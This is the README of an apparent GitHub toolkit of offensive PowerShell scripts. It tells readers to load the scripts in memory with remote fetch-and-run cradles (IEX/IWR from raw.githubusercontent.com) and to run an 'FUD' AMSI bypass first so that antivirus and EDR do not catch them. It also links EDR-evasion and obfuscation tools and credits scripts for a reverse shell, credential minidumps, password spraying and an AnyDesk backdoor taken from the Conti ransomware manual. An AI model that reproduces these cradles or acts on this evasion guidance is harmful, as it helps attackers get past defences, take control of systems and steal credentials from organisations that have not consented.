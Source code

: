 ![logo](https://user-images.githubusercontent.com/69973378/147786741-83944a0f-2ee8-49f7-bdb4-406f0a70ba84.png)

This repo is a collection of minimalist yet effective powershell offensive securities scripts. The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)

All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage

All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/thescriptyouwant.ps1')) or on your very own webserver if you prefer

You should definitely start by invoking:

IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/amsibp-dec-2021-fud.ps1'))

or else AV/EDR will surely block you right away!

# opsec/evasion

If you want to pull a sneaky on Blue Team/Soc, you should give a look at the following:

paper:

https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/

tools:

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/tokyoneon/Chimera

http://www.powertheshell.com/

https://github.com/klezVirus/inceptor

Of course, for most of the tasks, you don't need to use powershell and you can use signed ms binaries:

https://lolbas-project.github.io/

Also there's a few ways to run powershell without powershell.exe:

https://www.ired.team/offensive-security/code-execution/powershell-without-powershell




# roadmap

Add extra doc on usage/make usage common between scripts

Add a privesc script that will go wmic qfe

Add an eventlogkiller (maybe)




# credits

All credits go to their respective owners:

revshell.ps1:  @TihanyiNorbert based on Nishang Framework

https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script

https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 

https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride

https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec

https://github.com/deepzec/Win-PortFwd

minidump.ps1: Matt Graeber @mattifestation

FilelessDotNetLoader.ps1: S3cur3Th1sSh1t

https://github.com/S3cur3Th1sSh1t/Invoke-Sharpcradle

(You should probably give a look at his github, this mans's a powershell beast)


anydesk-backdoor.ps1: Conti Operators Manual (credit is credit)
